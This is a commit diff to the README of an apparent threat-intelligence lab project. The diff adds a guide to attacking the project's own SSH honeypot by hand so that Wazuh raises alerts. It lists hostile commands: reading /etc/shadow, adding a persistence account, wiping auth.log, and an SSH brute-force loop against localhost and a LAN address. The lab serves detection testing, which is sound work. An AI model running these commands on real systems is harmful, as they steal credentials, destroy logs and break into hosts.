

Before and after one commit to jessn-dev/CTI-Lab, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: add manual-attack guide (local + external attacker IP)

````diff
--- a/README.md
+++ b/README.md
@@ -50,6 +50,7 @@ malware   : VirusTotal  MALWARE DETECTED 65/74
 5. [Install & run](#install)
 6. [Verifying it worked](#verify)
 6b. [AI Threat Analyst (Phase A)](#analyst)
+6c. [Attack it yourself (manual)](#attack)
 7. [Project layout](#layout)
 8. [Scope, honesty & limitations](#limits)
 9. [Troubleshooting](#troubleshooting)
@@ -242,6 +243,48 @@ default `gemini-2.0-flash`). Local/Claude backends are **deliberately deferred**
 see [`docs/ROADMAP.md`](docs/ROADMAP.md). A local model (Ollama) would remove the
 third-party egress entirely.
 
+<a name="attack"></a>
+## 6c. Attack it yourself (manual)
+
+`./attack.sh` automates the kill chain, but the honeypot is a real `sshd` — you
+can attack it by hand and watch Wazuh react. Open the dashboard first
+(`https://localhost:8443` → **Threat Hunting → Security Alerts**).
+
+### Local, from this machine
+```bash
+# 1) Foothold, then run the kill chain by hand
+ssh root@localhost -p 2222            # password: toor
+#   inside the honeypot:
+cat /etc/shadow                                   # credential dump (T1003)
+useradd -m sysadmin_bckp                          # persistence → FIM alert
+curl -s -o /tmp/evil.txt https://secure.eicar.org/eicar.com.txt  # FIM → VirusTotal
+echo "" > /var/log/auth.log                       # log wipe (T1070)
+
+# 2) Brute force (trigger rule 5763 + the Active-Response ban)
+for i in $(seq 1 10); do ssh -o StrictHostKeyChecking=no root@localhost -p 2222; done
+#   type a wrong password each time
+```
+
+> ⚠️ From this machine your source IP is the **Docker gateway** (`192.168.65.1`),
+> shared by all host→container traffic. Once the ban fires, **new** SSH
+> connections are dropped for 600s (auto-unban), but an **already-open** session
+> survives. So log in with `toor` first, then brute-force in a second terminal.
+
+### From another machine — a "clean" external attacker IP
+To make Wazuh see a real, distinct attacker IP (and ban only that host), attack
+from a **different device on your LAN**:
+```bash
+# find your Mac's LAN IP
+ipconfig getifaddr en0            # e.g. 192.168.1.42
+
+# from the other machine, target that IP:2222
+ssh root@192.168.1.42 -p 2222                     # foothold (password: toor)
+for i in $(seq 1 10); do ssh -o StrictHostKeyChecking=no root@192.168.1.42 -p 2222; done
+```
+Now the brute-force `srcip` is the other machine's real address, Active Response
+bans **only** that IP, and your Mac keeps working. (Ensure macOS firewall allows
+inbound `2222`, and both devices are on the same network.)
+
 <a name="layout"></a>
 ## 7. Project layout
 
````
Also changed, not shown: other parts of README.md (+3 -2 lines).
